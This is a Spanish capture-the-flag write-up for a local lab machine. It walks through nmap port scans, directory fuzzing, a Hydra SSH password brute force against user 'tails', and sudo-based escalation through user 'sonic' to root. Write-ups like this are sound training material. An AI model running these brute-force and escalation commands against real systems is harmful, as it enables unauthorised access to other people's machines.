







<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>

---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                          |
| ------ | ------ | -------- | -------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 |
| 80/tcp | open   | http     | Apache httpd 2.4.58 ((Ubuntu))   |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>

Nos muestra una palabra `tails`, que en español significa `cruz`. Puede que sea algún nombre de usuario, pero antes realizamos `fuzzing web` para intentar enumerar fichero y directorios que estén alojados en el servidor web.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>


No encuentra mucho, así que realizamos un segundo escaneo con la herramienta `gobuster`.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

<p align="center">
    
</p>

Tampoco nos encuentra mucho. Así que realizaremos un ataque de fuerza bruta para comprobar que `tails` es un usuario y poder ver si conseguimos su contraseña.

---

## Explotación

#### Hydra
Si tomamos como usuario la palabra que nos indica la web `tails`, vamos a realizar un ataque de fuerza bruta para conseguir la contraseña del mismo por el protocolo `SSH` que también está abierto.
```
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```


Encontramos la contraseña del usuario `tails`. Por lo que iniciamos sesión en el protocolo `SSH`.
```
ssh tails@172.17.0.2     # después ponemos la contraseña 3117548331
```


Entramos como usuario `tails`.

---

## Escalada de privilegios

Comprobamos que binarios puede ejecutar el usuario `tails`.
```
sudo -l
```


Vemos que puede ejecutar cualquier binarios como si fuera el usuarios `sonic`, por lo que ejecutamos una `bash` como el usuarios `sonic` desde el usuario `tails`.
```
sudo -u sonic /bin/bash
```


Somos el usuarios `sonic`. Realizamos lo mismo, es decir, vamos a ver que binarios puede ejecutar el usuario `sonic`.
```
sudo -l
```


Y vemos que puede ejecutar cualquier binario, como si fuera cualquier usuarios del sistema. También entra el usuario `root`, por lo que directamente cambio al usuario `root`.
```
sudo su
```


Y ya somos el usuario `root`.

